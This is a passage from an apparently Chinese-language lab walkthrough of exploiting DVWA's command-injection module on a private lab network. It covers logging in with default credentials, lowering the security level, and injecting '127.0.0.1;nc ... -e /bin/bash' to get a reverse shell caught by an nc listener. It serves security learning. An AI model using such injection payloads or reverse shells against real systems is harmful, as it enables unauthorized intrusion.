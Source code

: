 ### 2.3. Web 服务探测 (Web Enumeration)

访问 80 端口的 HTTP 服务 `http://192.168.205.203/wordpress/`。

![DVWA Login Page](https://cdn.jsdelivr.net/gh/7r1UMPH/7r1UMPH.github.io@main/static/image/20250501141142075.png)

页面显示为 DVWA (Damn Vulnerable Web Application) 的登录界面。DVWA 是一个知名的故意包含漏洞的 Web 应用，用于安全测试和学习。

DVWA 通常有默认的登录凭据。

![DVWA Logged In](https://cdn.jsdelivr.net/gh/7r1UMPH/7r1UMPH.github.io@main/static/image/20250501141310014.png)

## 3. 获取初始访问权限 (Initial Access - DVWA Command Injection)

### 3.1. 漏洞发现与利用 (Vulnerability Discovery & Exploitation)

* **登录 DVWA:** 尝试使用 DVWA 的默认凭据 `admin` / `password`。成功登录。

  ![image-20250501141405799](https://cdn.jsdelivr.net/gh/7r1UMPH/7r1UMPH.github.io@main/static/image/20250501141405948.png)

* **寻找注入点:** 浏览 DVWA 的功能模块，发现 "Command Injection" 模块。

* **初步测试:** 尝试执行简单命令，如 `127.0.0.1; id`。

  ![Initial Command Injection Attempt (Blocked)](https://cdn.jsdelivr.net/gh/7r1UMPH/7r1UMPH.github.io@main/static/image/20250501141546233.png)

  初始尝试被 DVWA 的安全级别阻止。

* **降低安全级别:** DVWA 允许调整安全级别。导航到 "DVWA Security" 页面，将安全级别设置为 "Low"。

  ![Setting Security Level to Low](https://cdn.jsdelivr.net/gh/7r1UMPH/7r1UMPH.github.io@main/static/image/20250501141634505.png)

* **再次测试:** 在 "Low" 安全级别下，再次尝试命令注入。输入 `127.0.0.1; id`。

  ![Successful Command Injection (Low Security)](https://cdn.jsdelivr.net/gh/7r1UMPH/7r1UMPH.github.io@main/static/image/20250501141746295.png)

  命令 `id` 成功执行，确认存在命令注入漏洞。

* **构造反弹 Shell Payload:** 为了获取交互式 Shell，构造一个反弹 Shell Payload。
  Payload: `127.0.0.1;nc 192.168.205.188 8888 -e /bin/bash`

* **设置监听器:** 在攻击机 (Kali) 上使用 `nc` 设置监听器，等待反弹连接。

  ```bash
  ┌──(kali㉿kali)-[/mnt/hgfs/gx/test]
  └─$ nc -lvnp 8888            
  listening on [any] 8888 ...
  ```

* **执行 Payload:** 在 DVWA 的命令注入页面提交反弹 Shell Payload。

### 3.2. 获取 Shell (Gaining Access)

提交 Payload 后，DVWA 页面会持续加载。返回 Kali 终端，监听器应收到连接。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/test]
└─$ nc -lvnp 8888            
listening on [any] 8888 ...
connect to [192.168.205.188] from (UNKNOWN) [192.168.205.203] 35542 # <-- 连接成功
```
